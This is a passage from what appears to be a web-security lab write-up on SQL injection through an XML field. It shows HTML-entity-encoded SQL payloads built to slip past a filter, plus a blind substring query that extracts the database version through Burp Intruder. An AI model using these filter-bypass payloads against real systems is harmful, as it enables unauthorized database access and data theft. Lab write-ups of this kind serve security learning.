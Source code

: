 ![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/3.png)

We can encode it to HTML with Burp to avoid detection. The whole query “(SELECT 1)” HTML-encoded is:

```
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x31;)
```


Next we see this query works:

```
SELECT CASE WHEN (1=1) THEN 1 ELSE 2 END
```

```
<productId>
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x31;&#x3d;&#x31;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;&#x0a;)
</productId>
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/4.png)

Next I will retrieve the version:

```
SELECT CASE WHEN (substring((SELECT version()),1,1)='a') THEN 1 ELSE 2 END
```

I sent it to Intruder and added delay between requests:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/5.png)
